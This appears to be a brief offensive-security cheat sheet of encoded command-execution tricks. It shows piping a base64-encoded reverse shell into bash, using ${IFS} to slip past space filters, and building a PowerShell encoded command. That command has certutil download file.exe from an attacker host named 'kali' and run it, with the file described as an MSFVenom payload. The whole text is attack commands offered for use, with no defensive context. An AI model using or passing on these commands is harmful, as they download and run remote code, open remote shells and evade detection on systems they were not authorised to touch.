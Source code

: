 ### Command

#### 1) 

    echo 'REVERSE_SHELL_PAYLOAD' | base64

#### 2) 

    echo${IFS}BASE64_SHELL|base64${IFS}-d|bash

#### 3) Powershell Encoded:

### Payload to be encoded:

    certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe

### Encoding :

    [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe'))

### Executing :

    powershell.exe -nop -e [above encoded code]

### File.exe has been generated using MSFVenom
